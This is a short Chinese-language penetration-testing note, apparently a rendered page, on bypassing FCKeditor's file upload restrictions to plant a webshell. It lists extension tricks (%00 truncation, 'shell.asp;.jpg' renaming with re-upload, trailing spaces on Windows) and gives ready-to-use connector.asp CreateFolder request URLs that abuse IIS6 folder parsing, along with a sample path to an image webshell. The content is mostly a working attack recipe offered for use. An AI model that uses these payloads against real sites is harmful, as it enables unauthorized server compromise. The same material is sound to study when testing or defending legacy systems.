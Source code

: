 # FCKeditor 突破上传

**上传限制**

上传限制的突破方式很多，主要还是抓包改扩展名，%00截断，添加文件头等

**文件名限制**

**二次上传绕过**

文件名`‘ . ’ `修改为`‘ _ ’`

FCK在上传了诸如`shell.asp;.jpg`的文件后，会自动将文件名改为`shell_asp;.jpg`。可以继续上传同名文件，文件名会变为`shell.asp;(1).jpg`

提交**shell.php+空格绕过**

提交**shell.php+空格绕过**

空格只支持windows系统，linux系统是不支持的，可提交**shell.php+空格**来绕过文件名限制。

**iis6.0突破文件夹限制**


```bash
Fckeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=File&CurrentFolder=/shell.asp&NewFolderName=z.asp
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
```


**文件解析限制**

通过Fckeditor编辑器在文件上传页面中，创建诸如1.asp文件夹，然后再到该文件夹下上传一个图片的webshell文件，获取其shell。

`http://url/images/upload/201806/image/1.asp/1.jpg`

